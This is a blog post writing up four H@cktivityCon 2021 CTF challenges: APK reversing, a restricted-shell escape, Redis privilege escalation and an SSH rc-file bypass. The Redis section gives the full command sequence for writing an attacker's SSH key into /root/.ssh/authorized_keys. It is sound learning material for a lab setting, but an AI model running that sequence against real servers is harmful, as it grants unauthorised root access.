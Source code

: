 +++
title = "H@cktivityCon 2021 CTF Writeup"
date = "2021-09-18"
author = ""
authorTwitter = "" #do not include @
tags = ["CTF"]
keywords = ["", ""]
description = ""
showFullContent = false
toc = true
cover = "/img/hacktivitycon-2021/hacktivity.jpeg"
+++



## Introduction

H@cktivityCon 2021 was happening over the weekend and I participated in their ctf with team [@fr334aks](https://twitter.com/fr334aks). We managed position 49 out of 2527 teams.
This writeup is of the challenges I managed to solve.

## Challenges

### 1. Mobile: To Do

Challenge Description:

{{< image src="/img/hacktivitycon-2021/to-do-1.png" alt="" position="center" style="border-radius: 8px;" >}}

We are provided with an apk file. First thing I typically do with apk files is open them with jadx-gui. 

```sh
jadx-gui todo.apk
```

Here I first look at the AndroidManifest.xml to see the application entry point. 

{{< image src="/img/hacktivitycon-2021/to-do-2.png" alt="" position="center" style="border-radius: 8px;" >}}

For this app it's LoginActivity. It checks if the input provided is equal to `testtest` and if true it goes on to load MainActivity.

{{< image src="/img/hacktivitycon-2021/to-do-3.png" alt="" position="center" style="border-radius: 8px;" >}}

When we install the application and supply the password as `testtest` we get the flag.

{{< image src="/img/hacktivitycon-2021/to-do-5.png" alt="" position="center" style="border-radius: 8px;" >}}

{{< image src="/img/hacktivitycon-2021/to-do-6.png" alt="" position="center" style="border-radius: 8px;" >}}

Unfortunately I couldn't copy it out and typing it would have been a pain. Back on the MainActivity we see it loads MyDatabase.

{{< image src="/img/hacktivitycon-2021/to-do-4.png" alt="" position="center" style="border-radius: 8px;" >}}

When we look at MyDatabase, it loads an sqlite database `todos.db`. A lot of the times sqlitedb database in android apps are stored within
the apk.

{{< image src="/img/hacktivitycon-2021/to-do-7.png" alt="" position="center" style="border-radius: 8px;" >}}

Extracting the apk using apktool I was able to access the sqlitedb and extract the flag.

{{< image src="/img/hacktivitycon-2021/to-do-8.png" alt="" position="center" style="border-radius: 8px;" >}}

### 2. Miscellaneous: Shelle 

Challenge Description:

{{< image src="/img/hacktivitycon-2021/shelle-1.png" alt="" position="center" style="border-radius: 8px;" >}}

When we connect to the challenge, we get access to a restricted shell with only a few commands we can run.

{{< image src="/img/hacktivitycon-2021/shelle-2.png" alt="" position="center" style="border-radius: 8px;" >}}

When we read the assignment, we are told the flag is in the /opt directory.

{{< image src="/img/hacktivitycon-2021/shelle-3.png" alt="" position="center" style="border-radius: 8px;" >}}

Unfortunately we can't access it.

{{< image src="/img/hacktivitycon-2021/shelle-4.png" alt="" position="center" style="border-radius: 8px;" >}}

Next I tried to see if we can access any environment variables and see if the `$` character is forbidden as well.
Luckily this works.

{{< image src="/img/hacktivitycon-2021/shelle-5.png" alt="" position="center" style="border-radius: 8px;" >}}

I then ran `set` to list all environment variables. Looking through the list I saw one set to bash.

{{< image src="/img/hacktivitycon-2021/shelle-6.png" alt="" position="center" style="border-radius: 8px;" >}}

I was able to use it to escape the restricted shell and read the flag.

{{< image src="/img/hacktivitycon-2021/shelle-7.png" alt="" position="center" style="border-radius: 8px;" >}}

### 3. Miscellaneous: Redlike

Challenge Description:

{{< image src="/img/hacktivitycon-2021/redlike-1.png" alt="" position="center" style="border-radius: 8px;" >}}

After sshing into the challenge machine, I performed some local enumeration and when checking for running processes
we see redis running locally as root. Clearly this is the privesc path.

{{< image src="/img/hacktivitycon-2021/redlike-2.png" alt="" position="center" style="border-radius: 8px;" >}}

I immediately jumped to [hacktricks](https://book.hacktricks.xyz/pentesting/6379-pentesting-redis#ssh) and used the below commands to escalate privileges.

```sh
ssh-keygen -f redis

(echo -e "\n\n"; cat redis.pub; echo -e "\n\n") > spaced_key.txt

cat spaced_key.txt | redis-cli -h 127.0.0.1 -x set ssh_key

redis-cli -h 127.0.0.1

config set dir /root/.ssh

config set dbfilename "authorized_keys"

save

chmod 600 redis

ssh -i redis root@127.0.0.1
```

{{< image src="/img/hacktivitycon-2021/redlike-3.png" alt="" position="center" style="border-radius: 8px;" >}}

### 4. Miscellaneous: Race Car

Challenge Description:

{{< image src="/img/hacktivitycon-2021/racecar-1.png" alt="" position="center" style="border-radius: 8px;" >}}

I enjoyed this one as I was the second to solve it.

When we ssh into the challenge machine, the session is immediately closed when we provide the password.

{{< image src="/img/hacktivitycon-2021/racecar-2.png" alt="" position="center" style="border-radius: 8px;" >}}

I tried different techniques I knew for restricted shell bypass with ssh but none worked. I got an idea to use sftp and 
see what configuration files could be causing this behaviour.

With sftp we are not kicked out and can look at files. Two files seem to be of interest but only `rc` in .ssh has contents.

{{< image src="/img/hacktivitycon-2021/racecar-3.png" alt="" position="center" style="border-radius: 8px;" >}}

The rc file is the one responsible for getting us kicked out. I tried deleting it but that didn't work. However, since we have write 
permissions, I was able to overwrite it by uploading an empty file with the same name.

Once that was done we can ssh and get the flag.

{{< image src="/img/hacktivitycon-2021/racecar-4.png" alt="" position="center" style="border-radius: 8px;" >}}


## Conclusion

Thanks HackerOne, John Hammond and the CTF challenge creators, it was a fun one!
